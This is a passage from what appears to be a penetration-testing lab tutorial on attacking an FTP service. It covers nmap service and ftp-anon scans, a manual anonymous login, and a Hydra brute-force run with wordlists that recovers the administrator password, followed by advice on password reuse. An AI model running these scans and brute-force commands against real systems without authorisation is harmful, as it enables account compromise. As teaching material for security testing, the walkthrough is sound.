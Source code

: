 ```
ls -al /usr/share/nmap/scripts/ | grep ftp-
```

We have the ftp-anon script. So in order to test this particular ftp server and see whether anonymous access has been enabled.

```
nmap -sV -p 21 --script=ftp-anon 10.0.28.97
```

We can also test it manually by using the ftp client.

```
ftp 10.0.28.97 21
```

It's going to prompt you to enter credentials.

```
anonymous

ftp> exit
```

We can say anonymous or just hit Enter.

That means anonymous ftp access is not enabled.

The next attack that we can perform is FTP brute force.

Performing a brute force can be done through the use of the Metasploit Framework. Or you can do it with the holy grail of brute forcing tools, which is Hydra.

We can utilize Hydra to perform a brute force on the FTP server in order to identify legitimate credentials that we can then use to authenticate.

`-L`: Specify the word list that contains the usernames that we would like to perform the brute force with.

`-P`: for the password list.

We then need to provide the protocol that we are performing the brute force on, which in this case is ftp.

```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.28.97 ftp
```

```
[21][ftp] host: 10.0.28.97 login: administrator password: vagrant
```

That means, and in the case of ftp on Windows and on Linux, the credentials are user accounts on the system. So that means if we've been able to identify the administrator, tha administrator password, then this is pretty much, the password, the username, or rather the user account on the Windows system. Now the password might be different in certain cases unless the password has been reused.

The password is vagrant. And from the Nmap scan, we were able to identify that the host name is also vagrant. We can also try and see whether there is a user account called vagrant, as it's being reused quite a bit. 
